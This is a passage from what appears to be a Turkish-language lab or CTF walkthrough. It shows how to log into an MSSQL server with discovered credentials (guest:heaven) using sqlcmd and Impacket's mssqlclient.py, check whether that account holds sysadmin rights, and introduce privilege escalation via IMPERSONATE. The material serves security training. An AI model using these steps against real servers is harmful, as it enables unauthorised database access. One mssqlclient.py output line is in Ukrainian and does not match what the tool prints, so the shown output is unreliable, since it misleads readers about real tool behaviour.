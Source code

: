 ## 3. MSSQL Bağlantısı ve Yetki Kontrolü

Bulduğumuz `guest:heaven` bilgileriyle MSSQL sunucusuna bağlanmayı deneyeceğiz.

### 3.1. `sqlcmd` ile Bağlantı ve Yetki Kontrolü

```bash
sqlcmd -S <HEDEF_IP> -U guest -P heaven
```

Bağlantı başarılı olduktan sonra, `guest` kullanıcısının yetkilerini kontrol ediyoruz:

```sql
1> SELECT IS_SRVROLEMEMBER('sysadmin');
2> GO
-- Çıktı: 0 (sysadmin değil)

1> SELECT SYSTEM_USER;
2> GO
-- Çıktı: guest
```

`IS_SRVROLEMEMBER('sysadmin')` sorgusunun `0` döndürmesi, `guest` kullanıcısının `sysadmin` rolüne sahip olmadığını, yani kısıtlı yetkilere sahip olduğunu gösterir.

### 3.2. `mssqlclient.py` (Impacket) ile Bağlantı ve Yetki Kontrolü

`mssqlclient.py`, Impacket araç setinin bir parçasıdır. Eğer sisteminizde yoksa, genellikle `pip install impacket` ile veya doğrudan GitHub deposundan klonlanarak kurulabilir.

```bash
# Eğer domain/workgroup bilgisi yoksa veya Windows kimlik doğrulaması gerekmiyorsa:
mssqlclient.py guest:heaven@<HEDEF_IP>

# Eğer Windows kimlik doğrulaması gerekiyorsa (bu senaryoda SQL auth kullanıyoruz):
# mssqlclient.py DOMAIN/guest:heaven@<HEDEF_IP> -windows-auth
```

`mssqlclient.py` interaktif bir SQL kabuğu sunar (SQL>). Burada da aynı yetki kontrol sorgularını çalıştırabiliriz:

```sql
SQL> SELECT IS_SRVROLEMEMBER('sysadmin');
GO
[*] Row 0:
[*] немає системного адміністратора = 0

SQL> SELECT SYSTEM_USER;
GO
[*] Row 0:
[*] user_name = guest
```
Çıktılar, `sqlcmd` ile elde edilenlerle aynı doğrultuda olacaktır.

## 4. Yetki Yükseltme: IMPERSONATE ile 'sa' Kullanıcısına Geçiş
